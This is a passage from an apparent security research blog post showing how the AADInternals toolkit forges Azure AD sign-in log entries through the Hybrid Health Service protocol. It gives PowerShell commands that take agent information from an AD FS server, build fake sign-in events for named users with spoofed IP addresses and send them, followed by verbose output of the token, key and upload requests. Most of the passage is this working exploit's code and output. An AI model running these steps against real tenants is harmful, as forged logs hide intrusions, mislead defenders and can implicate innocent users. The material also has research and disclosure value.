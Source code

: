 After sending the signature, the events are shown in the log in 15 minutes or so (can take much longer too).

# Spoofing sign-ins log with AADInternals

**AADInternals v0.5.0** includes the functionality to create fake events using the Hybrid Health Service protocol.

First, we need to get the agent information (requires local administrator rights to AD FS server):

{{< highlight powershell >}}
# Get the agent information and save to a variable
$agentInfo = Get-AADIntHybridHealthServiceAgentInfo
{{< /highlight>}}

Second, we create an array of fake events. This and the next step can be done from any internet-joined computer using the agent information from the previous step.

{{< highlight powershell >}}
# Create an array of fake events
$events=@(
    New-AADIntHybridHealtServiceEvent -Server $agentInfo.Server -UPN "NestorW@contoso.azurelabs.online" -IPAddress "22.22.22.22" -NetworkLocationType Extranet  -Timestamp (Get-Date).AddHours(-1)
    New-AADIntHybridHealtServiceEvent -Server $agentInfo.Server -UPN "DiegoS@contoso.azurelabs.online"  -IPAddress "11.11.11.11" -NetworkLocationType Extranet 
)
{{< /highlight>}}

Finally, we'll send the events! I'm using -Verbose switch here to see what's going on under-the-hood:

{{< highlight powershell >}}
# Send the events
Send-AADIntHybridHealthServiceEvents -AgentInfo $agentInfo -Events $events -Verbose
{{< /highlight>}}

**Output:**
```
VERBOSE: POST https://s1.adhybridhealth.azure.com/oauth2/token with -1-byte payload
VERBOSE: received 443-byte response of content type application/json; charset=UTF-8
VERBOSE: GET https://s1.adhybridhealth.azure.com/providers/Microsoft.ADHybridHealthService/monitoringpolicies/50abc8f3-243a-4ac1-a3fb-712054d7334b/keys/BlobUploadKey with 0-byte payload
VERBOSE: received 218-byte response of content type application/json; charset=utf-8
VERBOSE: GET https://s1.adhybridhealth.azure.com/providers/Microsoft.ADHybridHealthService/monitoringpolicies/50abc8f3-243a-4ac1-a3fb-712054d7334b/keys/EventHubPublisherKey with 0-byte payload
VERBOSE: received 411-byte response of content type application/json; charset=utf-8
VERBOSE: Get-CompressedByteArray
VERBOSE: PUT https://adhsprodweuaadsynciadata.blob.core.windows.net/adfederationservice-50abc8f3-243a-4ac1-a3fb-712054d7334b/a653012f-522a-4d47-b4b5-a753ccebd353.json?sv=2018-03-28&sr=c&sig=cwyvMgry1h5IyfA3hQwKX1%2FoOPibv1lvZq7fbPSwF4U%3D&se=2021-07-10T12:16:57Z&sp=w&api-version=2017-04-17 with -1-byte payload
VERBOSE: received 0-byte response of content type 
VERBOSE: Opening websocket: wss://adhsprodweuehadfsia.servicebus.windows.net/$servicebus/websocket
VERBOSE: IN: @{Type=Protocol SASL; Protocol=3; Major=1; Minor=0; Revision=0}
VERBOSE: OUT:@{Type=Protocol SASL; Protocol=3; Major=1; Minor=0; Revision=0}
VERBOSE: IN: @{Type=Protocol SASL; Protocol=3; Major=1; Minor=0; Revision=0}
VERBOSE: IN: @{Size=63; DOFF=2; Extended Header=System.Object[]; Type=SASL Mechanisms; Content=System.Object[]}
VERBOSE: IN: @{Size=26; DOFF=2; Extended Header=System.Object[]}
VERBOSE: OUT:@{Size=26; DOFF=2; Extended Header=System.Object[]}
```